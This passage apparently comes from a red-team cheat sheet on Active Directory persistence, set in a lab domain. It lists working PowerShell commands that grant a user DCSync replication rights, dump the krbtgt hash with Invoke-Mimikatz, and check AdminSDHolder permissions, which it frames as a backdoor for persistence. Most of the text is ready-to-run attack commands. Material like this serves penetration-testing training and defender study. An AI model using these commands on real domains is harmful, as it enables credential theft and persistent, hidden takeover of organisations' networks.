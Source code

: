     or just add rights for DCSync and perform it:
    
    ```powershell
    # PowerView
    Add-ObjectAcl -TargetDistinguishedName "DC=cyberlab,DC=cybercorp,DC=local" -PrincipalSamAccountName "STUDENT1" -Rights DCSync -Verbose
    
    # ActiveDirectory Module
    Set-ADACL -DistinguishedName "DC=cyberlab,DC=cybercorp,DC=local" -Principal "STUDENT1" -GUIDRight DCSync -Verbose
    ```
    
3. Check if the rights have been correctly added:
    
    ```powershell
    # PowerView
    Get-ObjectAcl -DistinguishedName "dc=cyberlab,dc=cybercorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "STUDENT1") -and (($_.ObjectType -match "replication") -or ($_.ActiveDirectoryRights -match "GenericAll"))}
    ```
    
4. With replication rights the user can get the hash of *krbtgt*:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\krbtgt"'
    ```
    

## AdminSDHolder

With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object. In 60 minutes (when SDPROP runs), the user will be added with Full Control to the members of groups like Domain Admins without actually being a member of it.

1. Check AdminSDHolder permissions (as normal user):
    
    ```powershell
    # PowerView
    Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" | ?{$_.IdentityReference -like "CYBERLAB\STUDENT1"}
    
    # ActiveDirectory Module
    (Get-Acl -Path "AD:\CN=AdminSDHolder,CN=System,DC=cyberlab,DC=cybercorp,DC=local").Access | ?{$_.IdentityReference -like "CYBERLAB\STUDENT1"}
    ```
    